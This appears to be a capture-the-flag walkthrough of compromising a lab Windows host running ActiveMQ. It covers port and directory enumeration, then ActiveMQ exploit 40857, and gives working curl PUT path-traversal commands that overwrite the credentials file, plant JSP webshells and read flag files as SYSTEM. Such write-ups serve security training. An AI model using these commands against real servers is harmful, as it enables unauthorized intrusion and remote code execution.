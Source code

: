 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

## Recon-Enumeration  
nmap -A -p- 10.2.0.15  
![alt text](./img/active01.PNG?raw=true)  
![alt text](./img/active02.PNG?raw=true)  
![alt text](./img/active03.PNG?raw=true)  

enum4linux 10.2.0.15  
![alt text](./img/active04.PNG?raw=true)  
![alt text](./img/active05.PNG?raw=true)  

dirsearch -u http://10.2.0.15:8161/ -w ~/wordlists/big.txt -t 100 -e php,html,aspx,txt,xml -f --full-url  
![alt text](./img/active09.PNG?raw=true)  
![alt text](./img/active06.PNG?raw=true)   

Let’s start Burpsuite and try to login with admin:admin  
![alt text](./img/active07.PNG?raw=true)  

The highlight section looks encoded. Let’s discover with [CyberChef](https://gchq.github.io/CyberChef/)  
![alt text](./img/active08.PNG?raw=true)  

So the credentials are send encoded with base64

In nmap we can see the versions of the applications  
![alt text](./img/active10.PNG?raw=true)  

## Exploit  
Let’s try to find exploit to them…  
![alt text](./img/active11.PNG?raw=true)  
![alt text](./img/active12.PNG?raw=true)  

We didn't found an exploit for this version of Jetty, however to ActiveMQ we have some. Let’s read the 40857.txt

searchsploit -x windows/remote/40857.txt  
![alt text](./img/active13.PNG?raw=true)  
![alt text](./img/active14.PNG?raw=true)  
  
We can just follow the steps:  
Run the command: echo admin: admin, admin > jetty-realm.properties  
Run the command: touch cmd.jsp  
Put he above lines in the cmd.jsp file:  
PS: Is the same on the exploit description  
![alt text](./img/active26.PNG?raw=true)  

Run the commands:  
curl -v -X PUT --data "@jetty-realm.properties" http://10.2.0.15:8161/fileserver/..\\..\\conf\\jetty-realm.properties  
Restart the target machine  
curl -u 'admin:admin' -v -X PUT --data "@cmd.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmd.jsp  
Access the page http://10.2.0.15:8161/admin/cmd.jsp  
Use the credentials admin:admin  
Ready, now we have an webshell  
![alt text](./img/active15.PNG?raw=true)  

## Privesc

The dir command doesn’t work. But running whoami we discover we are system:  
![alt text](./img/active16.PNG?raw=true)  

We already have system, however the dir command doesn’t work. So let’s try to get a shell or more information…  
![alt text](./img/active17.PNG?raw=true)  
![alt text](./img/active18.PNG?raw=true)  

Ok, i had some problems to run some commands. So i uploaded another .jsp webshell with the above code:  
PS: On kali is the same code of the file /usr/share/webshells/jsp/cmdjsp.jsp  
![alt text](./img/active25.PNG?raw=true)  

Run the command:  
curl -u 'admin:admin' -v -X PUT --data "@cmdjsp.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmdjsp.jsp  

Now we have 2 webshells that complement each other  
![alt text](./img/active20.PNG?raw=true)  

cd c:\ & dir *.txt /s /p > c:\windows\temp\aaa.txt & type c:\windows\temp\aaa.txt  
![alt text](./img/active21.PNG?raw=true)  
  
![alt text](./img/active22.PNG?raw=true)  
  
type c:\Users\public\user.txt  
![alt text](./img/active23.PNG?raw=true)  

type c:\Users\Administrador.WIN-439TMFLJJ23\root.txt.txt  
![alt text](./img/active24.PNG?raw=true)  
